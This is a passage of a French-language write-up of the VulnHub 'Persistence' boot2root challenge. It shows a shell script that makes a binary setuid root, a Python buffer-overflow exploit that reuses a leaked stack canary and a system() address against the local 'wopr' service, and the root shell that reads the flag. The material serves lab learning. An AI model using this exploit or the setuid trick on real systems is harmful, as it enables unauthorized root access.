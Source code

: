 et j'ai créé le script shell */tmp/log* suivant (ne pas oublier de le rendre exécutable) :  

```bash
#!/bin/bash
chown root.root /tmp/getroot
chmod u+s /tmp/getroot
```

Voici l'exploit final :  

```python
import socket
import struct

canary = 0xd517b777

s = socket.socket()
s.connect(("127.0.0.1", 3333))
s.recv(1024)

buff  = "A" * 30
buff += struct.pack("I", canary)
buff += "Z" * 4 # saved-ebp
buff += struct.pack("I", 0x0016c210) # adresse de system
buff += "A" * 4 # garbage
buff += struct.pack("I", 0x08048c60) # adresse de /tmp/log

s.send(buff)
s.recv(2014)
s.close()
```

Une fois exécuté, le processus *wopr* exécute */tmp/log* via *system()* ce qui rend notre binaire *getroot* setuid root et nous ouvre la porte :)  

```plain
bash-4.1# cat flag.txt
              .d8888b.  .d8888b. 888
             d88P  Y88bd88P  Y88b888
             888    888888    888888
888  888  888888    888888    888888888
888  888  888888    888888    888888
888  888  888888    888888    888888
Y88b 888 d88PY88b  d88PY88b  d88PY88b.
 "Y8888888P"  "Y8888P"  "Y8888P"  "Y888

Congratulations!!! You have the flag!

We had a great time coming up with the
challenges for this boot2root, and we
hope that you enjoyed overcoming them.

Special thanks goes out to @VulnHub for
hosting Persistence for us, and to
@recrudesce for testing and providing
valuable feedback!

Until next time,
      sagi- & superkojiman
```


*Published October 06 2014 at 08:12*
